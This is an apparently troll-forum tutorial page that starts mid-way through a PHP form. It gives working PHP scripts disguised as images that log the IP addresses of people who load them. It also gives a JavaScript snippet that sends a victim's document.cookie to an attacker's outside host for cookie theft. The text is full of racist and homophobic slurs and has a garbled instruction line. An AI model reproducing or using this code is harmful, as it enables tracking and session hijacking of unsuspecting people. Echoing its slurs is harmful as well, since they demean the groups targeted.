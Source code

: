 ```php
     name="cycles" value="10"><br>
    <input type="submit" name="submit" value="Click for lulz">
    </form>
    <?php 
    }
    ?>
```

### Image bugs  ###

Pretty fucking simple, really. You insert the following into an e-mail or something: 
c
Then in iplulz.php on your server (or whatever you call it), put this code: 
_PROTIP: Make a directory on your server called niggerimage.png or any image name, then save the code as index.php in the directory._

```php
    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_SERVER['REMOTE_ADDR'] . " fell for it lol\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>
```

User gets the image, you get their IP added to a list. EVERYONE WINS
Also, can steel cookies in dat way:

```php
    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_GET['d0ngz'] . " nigger\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>
```

And in email or whatevastuff put

```javascript
    <script>
    document.write("<img src='http://niggerz.com/fag.php?d0ngz="+ document.cookie+"'><br>')
    </script>
```